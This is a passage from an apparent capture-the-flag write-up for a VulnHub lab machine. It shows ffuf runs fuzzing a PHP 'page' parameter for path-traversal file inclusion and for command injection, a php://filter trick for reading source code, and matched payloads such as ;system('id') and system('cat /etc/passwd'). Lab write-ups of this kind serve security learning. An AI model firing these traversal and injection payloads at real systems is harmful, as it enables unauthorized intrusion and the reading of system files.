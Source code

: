 		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.110.39:60080/index.php?page=../../../../..FUZZ
	 :: Wordlist         : FUZZ: /usr/share/wordlists/LFI/file_inclusion_linux.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response size: 900
	________________________________________________
	Only /etc/passwd is enumerated
	```
3. Use `php://filter/convert.base64-encode/resource` to view the source code 
	![](Pasted%20image%2020220312163850.png)
4. Could not include SSH log files, Apache log files

## TCP/60080 (HTTP) - Enumerate URL parameter against a command injection wordlist
1. Enumerate URL parameter against a command injection wordlist
	``` 
	┌──(root💀kali)-[~/vulnHub/Wallaby_Nightmare]
	└─# ffuf -u http://$ip:60080/index.php?page=FUZZ -w /usr/share/wordlists/command_injection/commandInjectionLinux.txt -fw 182,181,199

			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.110.39:60080/index.php?page=FUZZ
	 :: Wordlist         : FUZZ: /usr/share/wordlists/command_injection/commandInjectionLinux.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response words: 182,181,199
	________________________________________________

	;system('id')           [Status: 200, Size: 1743, Words: 315, Lines: 39]
	system('cat /etc/passwd'); [Status: 200, Size: 1743, Words: 315, Lines: 39]
	:: Progress: [102/102] :: Job [1/1] :: 65 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
